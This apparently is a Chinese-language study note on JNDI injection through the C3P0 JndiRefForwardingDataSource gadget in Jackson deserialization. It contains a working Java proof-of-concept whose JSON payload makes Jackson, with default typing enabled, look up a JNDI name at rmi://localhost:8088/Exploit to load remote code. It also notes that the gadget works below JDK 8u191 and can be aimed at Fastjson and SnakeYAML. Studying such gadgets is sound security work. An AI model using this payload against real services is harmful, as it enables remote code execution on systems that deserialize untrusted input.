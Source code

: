 ## jndi 注入

PoolBackedDataSourceBase.掏出别人的exp学习一下。jndi适用于jdk8u191以下支持`reference`情况(这里的意思是只打C3P0，如果有其他依赖不是爽歪歪。)

```java
import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.*;
class Person {
    public Object object;
}
public class TemplatePoc {
    public static void main(String[] args) throws IOException {
        String poc = "{\"object\":[\"com.mchange.v2.c3p0.JndiRefForwardingDataSource\",{\"jndiName\":\"rmi://localhost:8088/Exploit\", \"loginTimeout\":0}]}";
        System.out.println(poc);
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();
        objectMapper.readValue(poc, Person.class);
    }
    public static byte[] toByteArray(InputStream in) throws IOException {
        byte[] classBytes;
        classBytes = new byte[in.available()];
        in.read(classBytes);
        in.close();
        return classBytes;
    }
    public static String bytesToHexString(byte[] bArray, int length) {
        StringBuffer sb = new StringBuffer(length);

        for(int i = 0; i < length; ++i) {
            String sTemp = Integer.toHexString(255 & bArray[i]);
            if (sTemp.length() < 2) {
                sb.append(0);
            }
            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }
}
```

现在可以利用的地方我能想到的大概就在`Fastjson`,`SnakeYAML`等，可以触发set方法的地方。

![image-20220512001356297](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220512001356297.png)

![image-20220512002621832](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220512002621832.png)

![image-20220512002629931](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220512002629931.png)

![image-20220512002642145](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220512002642145.png)

## hex序列化字节加载器
